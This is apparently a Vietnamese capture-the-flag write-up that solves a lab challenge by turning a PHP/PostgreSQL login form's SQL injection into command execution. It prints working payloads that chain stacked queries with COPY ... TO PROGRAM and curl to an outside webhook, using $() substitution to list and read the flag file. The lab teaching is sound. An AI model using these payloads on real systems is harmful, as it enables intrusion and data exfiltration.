






# SQL Injection

**Tên challenge:** Baby SQL Injection to RCE

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** This is because traditional SQL injection techniques. Could you execute command? The challenge is running in PostgreSQL and PHP. Flag File: /`flagXXXX.txt`. Flag Format: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Login và Source code được show ra bên phải:



**B2:** Ta thử đăng nhập với username là `admin` và password là `admin`



=> Xem ra manh mối duy nhất của ta là Source code được in ở trang Login

Khi ta đọc kỹ đoạn Code xử lý câu truy vấn SQL thì ta thấy nó đã không được xử lý đúng cách



Tại sao lại không được xử lý đúng cách ?
* **Trả lời:** Vì Developer đã lấy thẳng input người dùng `$username` và `$password` đưa vào câu truy vấn mà không dùng bất kỳ hình thức sàng lọc nào.

=> Ta có thể lợi dụng điểm này và chèn thêm các câu truy vấn SQL độc hại.

Nhưng mà vấn đề là ta không thể Login được vào trang thông qua chèn câu SQL độc hại, vì:

1. Ta không hề biết được `username` của bất kỳ người dùng nào trong bảng `users`
2. Ta không thể chèn thêm câu SQL `Select * from users` được, vì sẽ không có chỗ để hiện kết quả trả về.

**VD:** Nếu ta điền `$username` thành `' Select * from users; --` thì câu truy vấn hoàn chỉnh trong code sẽ thành:
```
SELECT * FROM users WHERE username =''; Select * from users; -- ' AND password='$password'";
```



Thì kết quả trả về của ta nhất định sẽ **LỚN HƠN 0** và thoả điều kiện với ảnh trên. Nhưng khi đăng nhập thành công thì nó chỉ sẽ in ra:
```
Welcome, ' Select * from users; --
```

Bạn thấy đó, không có chỗ hiện **KẾT QUẢ** của câu truy vấn ta chèn vào, nên ta bắt buộc phải dùng cách khác.

Bài này có thể có nhiều cách để lấy `Flag` nhưng tôi sẽ hướng dẫn bạn theo cách của tôi.

Mặc dù có nhiều cách lấy `Flag` nhưng chung quy cũng là cách thức dùng SQL Injection để chèn thêm câu truy vấn độc hại.

Trong PostgreSQL, hệ thống có hỗ trợ ta thực thi `OS Command` thông qua sử dụng lệnh:
```
COPY ... TO PROGRAM
```

**VD:** COPY (SELECT 'Hi') TO PROGRAM 'echo Hello';

* Ta có thể áp dụng lệnh này vào Challenge nhưng nếu ta sử dụng `echo Hello` thì cũng không có ích gì vì nó sẽ không in ra `Hello` cho ta biết.

=> Vì vậy, ta sẽ dùng cách thức là đẩy thông tin ra ngoài để biết được câu lệnh có được thực thi hay không ?

**Cụ thể:** Ta sẽ tạo 1 Webhook bên ngoài, sau đó ta sẽ thay thế lệnh `echo Hello` thành `curl web_hook_domain_cua_ta`, rồi sau đó kiểm tra xem Webhook của ta có nhận được gói tin không ?
* Nếu có, chứng tỏ ta có thể đẩy thông tin từ Website ra ngoài.

**B2:** Ta sẽ điền input `username` là: `'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban'; --` và `password` thì điền gì cũng được



=> Vậy là, ta đã thực thi thành công Command trên Website, vậy thì bây giờ ta lấy `Flag` bằng cách nào ?

* **Trả lời:** Bây giờ, ta sẽ thêm 1 parameter ở sau Webhook Domain của ta, cụ thể là payload của ta sẽ thay đổi như sau:
```
'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban/?output='; --
```

**Giải thích:** Ta thêm 1 parameter `output` ở phía sau Webhook Domain của ta, output này sẽ có nhiệm vụ chứa đựng những thông tin mà ta đẩy từ Website ra ngoài.

**VD:** Nếu ta để giá trị của parameter `output` là `test` thì khi gói tin từ Website bắn tới Webhook domain của ta sẽ có dạng sau:



Vì vậy, ta sẽ kết hợp với thêm cách sử dụng Command Linux trong chuỗi String như sau: `$(command)`

**VD:** Ta sẽ đổi giá trị của parameter `output` thành `$(pwd)` thì lúc này khi gửi gói tin đến Webhook của ta, giá trị của `output` sẽ trả về đường dẫn hiện tại mà ta đang đứng ở trên Web-Server.

**B3:** Tận dụng những điều trên, ta đổi input `username` thành
```
'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban/?output=$(cd /; ls *.txt | tail -n +2)'; --
```
**Giải thích:** Trong $() có 2 câu lệnh:
1. `cd /`: để đưa ta về thư mục `/` ( nơi chứa Flag )
2. `ls *.txt | tail -n +2`: Liệt kê các file `.txt` ở thư mục `/` và sau đó sẽ lấy dòng thứ hai trong toàn bộ kết quả mà `ls` trả về.

* **Cụ thể:** Vì khi dùng lệnh `ls *.txt` nó sẽ trả về tất cả các file `.txt` ở thư mục `/`, nếu ta không dùng lệnh **tail** thì nó sẽ chỉ lấy dòng đầu tiên của kết quả `ls` rồi gán vào giá trị `output` và như vậy nếu kết quả đầu tiên không phải là file Flag ta cần tìm thì sao ?

Cho nên đến đây, ta sẽ phải mò từng dòng, do tôi đã biết được file `Flag` thật nằm ở vị trị nào nên tôi dùng `tail -n +2`

Tới đây nhiều bạn sẽ thắc mắc là vì sao không dùng `cat *.txt` cho nhanh ?
* **Trả lời:** Vì có nhiều hơn 1 file `.txt`, nếu dùng lệnh `cat *` thì cũng tương tự lệnh `ls`, kết quả được gán vào output cũng chỉ là kết quả file txt được `cat` đầu tiên nếu không dùng thêm `tail` hoặc `head` để chọn dòng cụ thể.

**B4:** Sau khi đã biết được tên file txt chứa Flag thật, thì ta đổi câu lệnh trong $() thành lệnh `cat Ten_flag.txt` thôi.

<u><b>Lưu ý B4:</b></u> `$()` vẫn luôn phải  `cd /` trước, nếu không bạn sẽ ở thư mục hiện tại và khi `cat` Flag sẽ không có kết quả vì Flag nằm ở thư mục `/`.